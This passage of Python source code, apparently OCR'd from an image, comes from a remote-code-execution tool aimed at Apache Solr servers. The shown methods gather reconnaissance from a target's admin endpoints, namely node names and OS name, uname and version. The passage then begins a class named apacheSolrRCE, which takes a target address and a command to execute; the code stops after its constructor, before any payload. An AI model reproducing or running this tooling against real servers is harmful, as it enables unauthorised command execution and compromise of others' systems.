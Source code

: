             try:
                nodes_info = requests.get(url, params=payload, timeout=5)
                node = list(nodes_info.json()['status'].keys())
                state = 1
            except:
                node = ''
                state = 0

            if node:
                return {
                    'node': node,
                    'state': state,
                    'msg': 'Get Nodes Successfully'
                }
            else:
                return {
                    'node': None,
                    'state': state,
                    'msg': 'Get Nodes Failed'
                }

        def get_system(self):
            payload = {
                '_': self.timestamp,
                'wt': 'json'
            }
            url = 'http://' + self.ip + ':' + self.port + '/solr/admin/info/system'
            try:
                system_info = requests.get(url=url, params=payload, timeout=5)
                os_name = system_info.json()['system']['name']
                os_uname = system_info.json()['system']['uname']
                os_version = system_info.json()['system']['version']
                state = 1

            except:
                os_name = ''
                os_uname = ''
                os_version = ''
                state = 0

            return {
                'system': {
                    'name': os_name,
                    'uname': os_uname,
                    'version': os_version,
                    'state': state
                }
            }


    class apacheSolrRCE(object):

        def __init__(self, ip, port, node, command):
            self.ip = ip
            self.port = port
            self.node = node
            self.command = command
            self.url = "http://" + self.ip + ':' + self.port + '/solr/' + self.node
